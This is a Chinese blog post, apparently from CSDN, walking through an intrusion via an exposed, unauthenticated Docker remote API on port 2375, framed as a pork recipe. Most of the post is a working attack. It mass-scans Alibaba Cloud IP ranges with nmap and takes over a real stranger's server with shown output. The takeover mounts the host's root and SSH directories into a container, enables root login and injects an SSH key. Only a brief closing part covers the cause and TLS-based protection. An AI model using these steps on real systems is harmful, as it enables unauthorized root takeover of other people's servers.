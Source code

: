 # 2375攻击

相信了解过[docker](https://so.csdn.net/so/search?q=docker&spm=1001.2101.3001.7020) remote API的同学对2375端口都不陌生了，2375是docker远程操控的默认端口，通过这个端口可以直接对远程的docker daemon进行操作。

当$HOST主机以**`docker daemon -H=0.0.0.0:2375`**方式启动daemon时，可以在外部机器对$HOST的docker daemon进行直接操作：

```bash
docker -H tcp://$HOST:2375 ps
```

好，说说如何“入侵”，怎么通过这个端口入侵宿主机呢？

这个应该要从几个点说起吧：
- 1. docker对`user namespace`没有做隔离，也就是说，容器内部的root用户就是宿主机的root用户，一旦挂载目录，就可以在容器内部以宿主机的root用户身份对挂载的文件系统随意修改了。

- 1. docker服务拥有很高的执行权利(相当于root)，并且在docker用户组下的普通用户不需要任何其他验证就可以执行docker run等命令。
- 2. 暴露的docker remote  API端口如果没有启动ssl验证的话，任何能连通到这台docker宿主机的的机器都可以随意操作这台docker宿主机的docker  daemon（docker run、docker ps、docker rm等等这些命令都不在话下）。

结合以上3点，就基本具备入侵docker宿主机的条件了

讲得似乎有点悬，不多说，直接拿一个活鲜鲜的例子来讲吧：

(请允许我用最近新学的一道菜将流程带过 ╮(￣▽￣)╭ )

### 秘制红烧肉(docker版)

材料：一整块一整块的“5花”IP段，越肥越好（小白用户越多越好）

配料：nmap，docker

step 1: 扫描2375端口

怎么扫？我选用的是简单易用的黑客必备神器`nmap`了。

扫哪里呢？我选的目标是aliyun的IP段，百度得知：

```bash
42.96.128.0/17    Alibaba (Beijing) Technology Co., Ltd. China  
42.120.0.0/16    Aliyun Computing Co., LTD China  
42.121.0.0/16    Aliyun Computing Co., LTD China  
42.156.128.0/17    Aliyun Computing Co., LTD China  
110.75.0.0/16    Asia Pacific Network Information Centre China  
223.7.0.0/16    Hangzhou Alibaba Advertising Co.,Ltd. 
```

我不生产IP，我只是百度的搬运工，别问我这些IP从那来，我也想知道~ >.<

将上面IP内容保存在一个文件中，如 aliyun.list

开始扫描：

```bash
cat aliyun.list| awk '{print $1}' | xargs -n 1 -I {} nmap -sT -p2375 {} --open    

# 简单解释一下命令：
# awk 将第一列IP网段过滤出来
# xargs 将过滤出来的IP一个一个的分次送给nmap，-I {} 是指使用{}来代替传送的参数
# ...
# Starting Nmap 7.01 ( https://nmap.org ) at 2016-06-05 09:57 CST
# Nmap scan report for 42.96.MOSAIC.MOSAIC
# Host is up (0.070s latency).
# PORT     STATE SERVICE
# 2375/tcp open  docker
# ...
```

不到两分钟，第一块`42.96.MOSAIC.MOSAIC`（五花肉已打码） “五花肉”选好了，来吧~

### step 2: 测试2375的直接控制权

```bash
docker -H tcp://42.96.MOSAIC.MOSAIC:2375 ps
# CONTAINER ID        IMAGE                              COMMAND                  CREATED            STATUS             PORTS           
# 73aa690e7c92        imdjh/owncloud-with-ocdownloader   "/entrypoint.sh"         9 days ago          Up 3 days           0.0.0.0:9009->80
# f57c56af0e29        rethinkdb:2.3.2                    "rethinkdb --bind all"   9 days ago          Up 3 days           8080/tcp, 28015/
# 37c1401db593        gaomd/ikev2-vpn-server:0.3.0       "/bin/sh -c /usr/bin/"   10 days ago         Up 3 days           0.0.0.0:500->500
# af7338a5426d        nginx:1.9-alpine                   "nginx -g 'daemon off"   3 weeks ago         Up 3 days           443/tcp, 0.0.0.0
# ...
```

这个服务器的owner也太配合了(⊙ο⊙)，ps直接看到内容，说明这个主机的2375是没有ssl验证的，基本满足入侵要求。

“五花”洗好，切好，准备下锅~

### step 3: 远程启动自己的容器

拿到了docker的控制权能做什么呢？ **拿到了就呵呵了~**

```r
# images 看看本地已有的镜像
# docker -H tcp://42.96.MOSAIC.MOSAIC:2375 images
# ...
# swarm                              latest              47dc182ea74b        4 weeks ago         19.32 MB
# jwilder/nginx-proxy                latest              203b20631e41        4 weeks ago         255.6 MB
# ubuntu                             latest              c5f1cf30c96b        4 weeks ago         120.8 MB
# shipyard/shipyard                  latest              ba426f0944bc        5 weeks ago         58.92 MB
# ...
```

省略了一部分输出，镜像还蛮多的，就选个ubuntu吧

```objectivec
# docker -H tcp://42.96.MOSAIC.MOSAIC:2375 run --rm -it --entrypoint bash -v /root:/tmp/root -v /etc/ssh:/tmp/ssh_etc -v /var/log:/tmp/log ubuntu
```

看到这步，相信对ssh有一些了解的同学应该就明白了

### step 4: ssh pub key 注入

在刚刚启动的容器中先看看 `/tmp/ssh_etc/sshd_config` (就是宿主机的`/etc/ssh/sshd_config`) 的PermitRootLogin字段。如果是`no`就改成`yes`，允许root通过ssh登录

然后在**你的机器上**生成一对新的pub key（已经有ssh key的也建议生成一个新的，不要使用自己日常使用的ssh pub key）

```perl
# 使用 ssh-keygen生成
ssh-keygen -t rsa -C "hello@world.com"
# 执行命令后的提示Enter file in which to save the key要看好，不要把自己的ssh key覆盖了，可以选着/tmp/id_rsa
# 其他提示enter到底即可
```

继续，注入ssh pub key，回到**刚刚启动的容器**执行

```bash
cat >> /tmp/root/.ssh/authorized_keys <<EOF
>ssh-rsa AAA....     # 这里粘贴你刚刚在自己机器生成的/tmp/id_rsa.pub
>EOF
# 如果/tmp/root/.ssh目录不存在，就直接创建
```

八角香叶生抽老抽醋都加上，中火烹饪，准备出锅~

### step 5: 登入服务器

```ruby
# ssh -i 指定秘钥登录
ssh -i /tmp/id_rsa root@42.96.MOSAIC.MOSAIC
# Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic x86_64)
# ssh -i 指定秘钥登录
ssh -i /tmp/id_rsa root@42.96.MOSAIC.MOSAIC
 
# Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic x86_64)
#
# * Documentation:  https://help.ubuntu.com/
#
# Welcome to aliyun Elastic Compute Service!
#
# Last login: Fri Jun  3 01:38:07 2016 from 120.85.MOSAIC.MOSAIC
# manpath: can't set the locale; make sure $LC_* and $LANG are correct
# root@iZ28p9b7e***:~# 
# ...

```

大火收汁，起锅!

## 郑重声明

以上教程仅为交流学习之用，`42.96.MOSAIC.MOSAIC` 服务器上的`id_rsa.pub`在制作完本教程后已主动清除，并在服务上留言告知。

如果你一不小心也发现了可用的2375端口，**希望也能点到即止，误做他用**，或者发现其他入侵漏洞，可以和大家交流学习。

## 2375是docker漏洞吗？

非也！**2375直接裸露地暴露在公网上纯属是用户习惯或者偷懒的问题**，**2375可以在相对安全的内部网络中方便测试使用，并不适合使用在投入到生产环境中。**

docker官网第一篇文档quick start上有句话是这样子的：

```vbnet
Warning: Changing the default docker daemon binding to a TCP port or
Unix docker user group will increase your security risks by allowing
non-root users to gain root access on the host. Make sure you control
access to docker. If you are binding to a TCP port, anyone with
access to that port has full Docker access; so it is not advisable
 on an open network.
```

已经Warning告知：如果将daemon直接暴露在一个TCP端口，将可能会被以非root用户去获取宿主机的root权限。其实上面的说提到的服务器之所以这么容器被入侵，也正是这个原因。

## 何以防之

那么，问题来了，如果想用Remote API，又不想有被入侵的风险，怎么办呢？

docker官方文档上介绍了一种通过CA认证方式使用Remote API

具体可以参考：[Protect the Docker daemon socket](https://docs.docker.com/engine/security/https/)

(等理解了再补一篇博客吧，就姑且让我以一个链接的形式带过吧O.O)

配置过程还算是比较简单的，下面放一张图，展示配置SSL后的效果：

 

![img](Docker%202375%E6%94%BB%E5%87%BB%E5%92%8C%E8%A7%A3%E5%86%B3%E6%96%B9%E6%A1%88.assets/t_70.png)

文章知识点与官方知识档案匹配，可进一步学习相关知识